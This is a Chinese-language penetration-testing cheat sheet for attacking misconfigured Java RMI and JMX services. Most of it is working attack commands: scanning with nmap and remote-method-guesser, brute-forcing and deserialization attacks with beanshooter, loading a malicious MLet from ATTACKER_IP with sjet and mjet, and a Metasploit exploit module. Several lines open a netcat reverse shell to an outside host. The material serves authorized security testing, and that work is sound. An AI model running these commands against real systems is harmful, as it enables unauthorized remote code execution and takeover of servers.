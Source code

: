 # Java RMI

> Java RMI（远程方法调用）是一种Java API，它允许在一台Java虚拟机（JVM）中运行的对象调用另一台JVM（即使它们位于不同的物理机器上）上的对象的方法。RMI 提供了一种用于基于Java的分布式计算的机制。

## 概述

* [工具](#工具)
* [检测](#检测)
* [方法论](#方法论)
    * [使用 beanshooter 进行 RCE](#使用-beanshooter-进行-rce)
    * [使用 sjet/mjet 进行 RCE](#使用-sjet-or-mjet-进行-rce)
    * [使用 Metasploit 进行 RCE](#使用-metasploit-进行-rce)
* [参考文献](#参考文献)

## 工具

* [siberas/sjet](https://github.com/siberas/sjet) - Siberas JMX 攻击工具包
* [mogwailabs/mjet](https://github.com/mogwailabs/mjet) - Mogwai 实验室 JMX 攻击工具包
* [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) - Java RMI 漏洞扫描器
* [qtc-de/beanshooter](https://github.com/qtc-de/beanshooter) - JMX 枚举和攻击工具。

## 检测

* 使用 [nmap](https://nmap.org/)：

  ```powershell
  $ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
  1089/tcp open  java-rmi Java RMI
  | rmi-vuln-classloader:
  |   脆弱性：
  |   RMI 注册表默认配置远程代码执行漏洞
  |     状态：脆弱
  |       默认配置的 RMI 注册表允许从远程 URL 加载类，这可能导致远程代码执行。
  | rmi-dumpregistry:
  |   jmxrmi
  |     javax.management.remote.rmi.RMIServerImpl_Stub
  ```

* 使用 [qtc-de/remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)：

  ```bash
  $ rmg scan 172.17.0.2 --ports 0-65535
  [+] 在 172.17.0.2 的 6225 个端口上扫描 RMI 服务。
  [+]  [命中] 在 172.17.0.2:40393 (DGC) 上发现 RMI 服务。
  [+]  [命中] 在 172.17.0.2:1090 (注册表, DGC) 上发现 RMI 服务。
  [+]  [命中] 在 172.17.0.2:9010 (注册表, 激活器, DGC) 上发现 RMI 服务。
  [+]  [6234 / 6234] [#############################] 100%
  [+] 端口扫描完成。

  $ rmg enum 172.17.0.2 9010
  [+] RMI 注册表绑定名称：
  [+]
  [+]  - plain-server2
  [+]   --> de.qtc.rmg.server.interfaces.IPlainServer (未知类)
  [+]       终点: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
  [+]  - legacy-service
  [+]   --> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (未知类)
  [+]       终点: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
  [+]  - plain-server
  [+]   --> de.qtc.rmg.server.interfaces.IPlainServer (未知类)
  [+]       终点: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
  [...]
  ```

* 使用 [rapid7/metasploit-framework](https://github.com/rapid7/metasploit-framework)

  ```bash
  use auxiliary/scanner/misc/java_rmi_server
  set RHOSTS <IPs>
  set RPORT <PORT>
  run
  ```

## 方法论

如果一个 Java 远程方法调用（RMI）服务配置不当，就会变得容易受到各种远程代码执行（RCE）方法的攻击。一种方法是托管一个 MLet 文件，并引导 JMX 服务从远程服务器加载 MBeans，这可以通过 mjet 或 sjet 等工具实现。remote-method-guesser 是一个较新的工具，它结合了 RMI 服务枚举与已知攻击策略的概述。

### 使用 beanshooter 进行 RCE

* 列出可用属性：`beanshooter info 172.17.0.2 9010`
* 显示属性值：`beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose`
* 设置属性值：`beanshooter attr 172.17.0.2 9010 java.lang:type=Memory Verbose true --type boolean`
* 暴力破解受密码保护的 JMX 服务：`beanshooter brute 172.17.0.2 1090`
* 列出注册的 MBeans：`beanshooter list 172.17.0.2 9010`
* 部署一个 MBean：`beanshooter deploy 172.17.0.2 9010 non.existing.example.ExampleBean qtc.test:type=Example --jar-file exampleBean.jar --stager-url http://172.17.0.1:8000`
* 枚举 JMX 端点：`beanshooter enum 172.17.0.2 1090`
* 调用 JMX 端点上的方法：`beanshooter invoke 172.17.0.2 1090 com.sun.management:type=DiagnosticCommand --signature 'vmVersion()'`
* 调用任意公共和静态 Java 方法：

    ```ps1
    beanshooter model 172.17.0.2 9010 de.qtc.beanshooter:version=1 java.io.File 'new java.io.File("/")'
    beanshooter invoke 172.17.0.2 9010 de.qtc.beanshooter:version=1 --signature 'list()'
    ```

* 标准 MBean 执行：`beanshooter standard 172.17.0.2 9010 exec 'nc 172.17.0.1 4444 -e ash'`
* 对 JMX 端点进行反序列化攻击：`beanshooter serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --username admin --password admin`

### 使用 sjet 或 mjet 进行 RCE

#### 要求

* Jython
* JMX 服务器可以连接到由攻击者控制的 HTTP 服务
* JMX 身份验证未启用

#### 远程命令执行

攻击涉及以下步骤：

* 启动一个 Web 服务器，托管 MLet 和恶意 MBeans 的 JAR 文件
* 使用 JMX 在目标服务器上创建 `javax.management.loading.MLet` 类的实例
* 调用 MBean 实例的 `getMBeansFromURL` 方法，传入 Web 服务器的 URL 作为参数。JMX 服务将连接到 HTTP 服务器并解析 MLet 文件。
* JMX 服务下载并加载 MLet 文件中引用的 JAR 文件，使恶意 MBean 可通过 JMX 访问。
* 攻击者最终调用恶意 MBean 中的方法。

利用 [siberas/sjet](https://github.com/siberas/sjet) 或 [mogwailabs/mjet](https://github.com/mogwailabs/mjet) 攻击 JMX：

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### 使用 Metasploit 进行 RCE

```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# 如果需要，也可以配置 payload
run
```

## 参考文献

* [攻击基于 RMI 的 JMX 服务 - Hans-Martin Münch - 2019 年 4 月 28 日](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI - 多应用程序 RCE - Red Timmy Security - 2019 年 3 月 26 日](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
* [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel - 2021 年 8 月 15 日](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)